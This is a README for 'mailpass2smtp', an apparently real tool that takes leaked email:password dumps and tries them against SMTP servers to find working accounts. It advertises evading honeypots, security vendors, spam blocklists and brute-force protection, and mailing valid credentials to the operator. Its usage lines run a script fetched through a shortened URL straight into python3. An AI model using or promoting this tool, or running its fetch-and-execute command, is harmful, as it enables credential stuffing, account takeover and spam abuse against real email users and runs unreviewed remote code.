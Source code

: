 # mailpass2smtp.py - MadCat proxyless mail:pass and SMTP bruter/cracker/checker
<img width="1124" alt="image" src="https://user-images.githubusercontent.com/1212294/193919716-2bfcd76c-bf81-4591-a86b-b9d47e465b3c.png">
<img width="1053" alt="image" src="https://user-images.githubusercontent.com/1212294/193920323-0f4b5ff5-bd84-4c39-ab67-d26d7d74293f.png">

SMTP checker, that takes list, containing emails & passwords, in any order and in any format, extract email & password, recover connection params and trying to login with these credentials.
## Features
- __don't require proxy lists__, at all
- takes as input literaly anything - __csv lists, sql dumps, json exports, text with any garbage__ inside. Accepting files up to 100Gb in size, still keeping memory footprint low.
- detects and skips __60+ topmost known honeypots__ and __80+% of unknown honeypots__, keeping you away from abuse reports.
- skips emails, hosted by all known security vendors (like __proofpoint, perimeterwatch, securence, techtarget, cisco__ etc.), to keep you away from abuses.
- __prefering ipv6__ over ipv4 to evade spam-house ip blocking.
- trying __qa-__ nodes first, where bruteforse protection is often disabled.
- trying to connect to __different geo-separated host nodes__ of mail servers in balancer pool, if any.
- custom DNS resolver, to connect to __different ip every time__. To evade bruteforse protection.
- __trying neighbor ips__, if server on current ip rate-limiting us.
- skips email providers, where login:password authorization (unsafe apps) is desabled by default (like mail.ru, gmail etc.)
- automaticaly __adjusts ulimit__ values, to keep you runnig as fast as possible.
- automatical threads count balancing.
- can email you with valid credentials, if you provide an email, for further inbox sorting.
- can probe around __~150 credential pairs per second__ (~300-500 in "rage" mode)
- you can resume scan from any line you want

## Setup
All you need is __python3__ and __psutil & dnspython__ modules installed (script will try to install missing modules by itself, anyway).
On CentOS you may need to install missing modules by hand:
```
sudo yum install python-devel
sudo yum install python-requests
sudo yum install python-psutil
sudo yum install python-dns
```
## Usage
```
python3 <(curl -slkSL is.gd/madcatsmtp) list.txt [verify_email@example.com] [ignored,email,domains] [start_from_line] [rage]
```
where:
- __list.txt__ is path to your combo list, or dump, or csv etc.
- __verify_email@example.com__ is email, where to mail valid results (optional).
- __ignored,email,domains__ is a comma-separated list of skipped email providers in addition to built-in one (optional).
- __start_from_line__ is just a line number to start from, if any (optional).
- __rage__ is a keyword, by adding which you will increase threads number from 300 to 600, which in case of small server will cause instabilities (optional).

\*good credential pairs will be saved to __original_file_name\_smtp.txt__.

Or just:
```
python3 <(curl -slkSL is.gd/madcatsmtp)
```
and you will be prompted for missing parameters.


Good luck.

